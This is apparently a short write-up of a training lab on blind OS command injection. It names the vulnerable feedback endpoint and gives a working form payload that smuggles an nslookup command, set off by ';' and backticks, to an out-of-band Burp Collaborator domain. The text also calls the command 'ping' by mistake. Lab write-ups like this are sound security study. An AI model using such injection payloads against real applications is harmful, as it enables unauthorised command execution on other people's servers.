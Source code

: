 # Lab: Blind OS command injection with out-of-band interaction


>This lab contains a blind OS command injection vulnerability in the feedback function.

>The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

>To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

### Colaborator
My burp collaborator link `ecu2qyrr6gqtn8krj0i1mo6qwh27qw.burpcollaborator.net`

### Vulnerable area
`POST /feedback/submit`

### Exploit
Made a dns lookup to my collaborator instance with the following payload: 

<pre>csrf=jT692ZRhuzxNTU8g5ugNS7Tqp21bWDXa&name=niko&email=niko%40mail.com&subject=mad&message=mad;`nslookup ecu2qyrr6gqtn8krj0i1mo6qwh27qw.burpcollaborator.net`</pre>

Used command separator `;` and surrounded the nslookup command with backticks. I did this because we are executing the ping command *within* the command passed to the server (containing feedback info)

Lab solved!